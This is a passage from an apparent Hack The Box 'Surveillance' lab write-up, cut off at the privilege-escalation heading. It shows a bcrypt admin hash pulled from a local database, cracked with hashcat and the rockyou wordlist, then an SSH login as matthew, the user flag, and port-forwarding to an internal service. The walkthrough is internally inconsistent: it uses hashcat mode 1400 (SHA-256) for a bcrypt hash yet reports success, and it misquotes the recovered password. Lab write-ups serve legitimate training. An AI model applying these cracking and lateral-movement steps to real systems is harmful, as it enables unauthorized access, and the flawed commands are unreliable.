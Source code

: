 It looks like there is a database on `localhost` and port `3306`, with a username and a password.

Let's connect to it and retrieve some hashes.
The admin of the database is named Matthew and is the admin of the database.

```
admin@surveillance.htb | $2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe 
```

The hash type is `bcrypt` which we can try to crack with a wordlist.

```sh
echo '$2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe' > hash.txt

hashcat -m 1400 hash.txt /usr/share/wordlists/rockyou.txt -o result.txt

cat result.txt
 
$2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe:starcraft122490
```

Now we have a password: `startcraf122490`.

# Lateral Movement

Let's connect to ssh with the user `matthew` that we find before and the password we found.

```sh
matthew@surveillance:~$ id
uid=1000(matthew) gid=1000(matthew) groups=1000(matthew)

matthew@surveillance:~$ cat user.txt
341f4d5ae659ea4a5e40a0104f3f95d7
```

Check of active internet connections on the machine:

```sh
matthew@surveillance:~$ netstat -tnlp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN
```

We want to port forward the port 8080 of the machine on our local port 80:

```sh
ssh -L 80:surveillance.htb:8080 matthew@surveillance.htb
```

# Privilege Escalation
